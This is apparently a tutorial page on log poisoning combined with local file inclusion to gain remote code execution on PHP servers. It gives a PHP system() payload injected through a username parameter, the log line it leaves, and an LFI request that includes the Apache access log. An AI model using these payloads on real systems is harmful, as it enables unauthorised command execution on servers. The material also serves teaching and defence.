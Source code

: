 **Log Poisoning** is a specific type of attack where an attacker injects malicious code into server log files. These log files could be accessible and included in the application, leading to the execution of the malicious code. The attacker typically exploits LFI by targeting log files that are later included or parsed by the server.

## Example of Log Poisoning
- Send a malicious request to inject PHP into a user field, such as `username`:
```bash
http://example.com/login.php?username=<?php system('ls'); ?>
``` 
- This request is saved in the log file as:
```csharp
127.0.0.1 - - [10/Apr/2025:14:32:59 +0000] "GET /login.php?username=<?php system('ls'); ?>" 200 1024
``` 


## Remote Code Execution (RCE) via LFI and Log Poisoning

Once the attacker has injected code into the log, they can exploit it through the LFI vulnerability. If the log is included without filtering, the PHP code within the log will execute on the server.

#### Step-by-step Attack:

1. **Injection into Logs**
Inject PHP into the `username` field:
  ```
  http://example.com/login.php?username=<?php system('ls'); ?>
  ```
The server saves this request in the log.

2. **Include the Log via LFI**
The attacker uses the LFI vulnerability to include the log file with the following URL:
  ```
  http://example.com/index.php?page=/var/log/apache2/access.log
  ```
If the server processes the log file as PHP, the code injected into the log will execute.

3. **Command Execution**
The injected PHP command executes and returns the result:
  ```
  bin  etc  home  var  root
  ```
This is the result of `system('ls')` executed on the server, indicating that **RCE** has been achieved.
